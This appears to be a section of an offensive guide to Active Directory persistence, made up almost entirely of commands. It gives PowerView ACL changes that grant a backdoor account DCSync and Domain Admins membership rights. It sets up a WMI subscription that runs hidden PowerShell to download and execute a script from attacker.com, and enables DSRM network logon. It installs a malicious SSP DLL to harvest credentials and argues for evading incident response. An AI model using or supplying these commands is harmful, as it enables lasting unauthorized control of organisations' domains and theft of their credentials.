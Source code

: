 ## Domain Persistence and Backdoors

### **Advanced Backdoor Techniques**

**What advanced AD backdoors involve:** Sophisticated persistence mechanisms that survive typical security improvements and incident response efforts.

```bash
# ACL-based backdoors
# Modify object permissions to grant persistent access
# Using PowerView
Add-ObjectAcl -TargetDistinguishedName "DC=domain,DC=local" -PrincipalSamAccountName backdooruser -Rights DCSync
Add-ObjectAcl -TargetDistinguishedName "CN=Domain Admins,CN=Users,DC=domain,DC=local" -PrincipalSamAccountName backdooruser -Rights WriteMembers

# Certificate-based persistence
# Request certificates for long-term authentication
# Using certreq or PowerShell
$cert = Get-Certificate -Template User -CertStoreLocation Cert:\CurrentUser\My
# Use certificate for authentication after password changes

# WMI event subscription backdoors
# Create persistent WMI event subscriptions
$filter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{
    Name="PersistentFilter";
    EventNameSpace="root\cimv2";
    QueryLanguage="WQL";
    Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfRawData_PerfOS_System' AND TargetInstance.SystemUpTime >= 200 AND TargetInstance.SystemUpTime < 360"
}

$consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{
    Name="PersistentConsumer";
    CommandLineTemplate="powershell.exe -WindowStyle Hidden -c IEX(New-Object Net.WebClient).downloadString('http://attacker.com/backdoor.ps1')"
}

Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{
    Filter=$filter;
    Consumer=$consumer
}

# DSRM password backdoors
# Modify DSRM account for persistence on domain controllers
# Enable DSRM logon over network
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v DsrmAdminLogonBehavior /t REG_DWORD /d 2 /f

# Security Support Provider (SSP) backdoors
# Install custom SSP for credential harvesting
copy malicious_ssp.dll C:\Windows\System32\
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos msv1_0 schannel wdigest tspkg pku2u malicious_ssp" /t REG_MULTI_SZ /f

# Why advanced backdoors are necessary:
# - Survive standard incident response procedures
# - Provide multiple re-entry vectors
# - Operate below typical detection thresholds
# - Maintain access through security improvements
# - Enable long-term intelligence gathering
```
